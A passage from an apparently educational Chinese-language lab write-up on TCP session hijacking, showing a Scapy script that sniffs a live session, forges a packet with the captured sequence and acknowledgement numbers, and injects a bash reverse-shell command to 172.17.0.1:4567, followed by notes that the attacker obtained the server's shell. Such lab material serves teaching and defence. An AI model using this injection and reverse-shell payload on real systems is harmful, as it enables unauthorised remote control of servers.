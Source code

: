 ```python
  ip = IP( src  = old_ip.src,
        dst  = old_ip.dst
       )
  tcp = TCP( sport = old_tcp.sport,
        dport = old_tcp.dport,
        seq  = old_tcp.seq,
        ack  = old_tcp.ack,
        flags = "PA"
       )
  data = "/bin/bash -i >/dev/tcp/172.17.0.1/4567 2>&1 0<&1\r\n"
  #############################################

  pkt = ip/tcp/data
  send(pkt,verbose=0)
  ls(pkt)
  #quit()

f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof)
```

（3）观察和解释：

运行脚本后，在用户机上输入一个空格，然后脚本会监听到这个输入，并使用该序列号和ACK号伪造报文。

下图上方为攻击机运行脚本的截图，下方为攻击机开启监听后获得服务器的shell的截图。

![img](https://img-blog.csdnimg.cn/img_convert/7214f57e5fb36b8ed32c21a5d798aa9a.png)

伪造的报文成功发送，在wireshark中的抓包显示如下图。可以看到，发送了Data为"/bin/bash -i >/dev/tcp/172.17.0.1/4567 2>&1 0<&1\r\n"的报文。

![img](https://img-blog.csdnimg.cn/img_convert/553e11153cebade5080e7555f3a75dab.png)
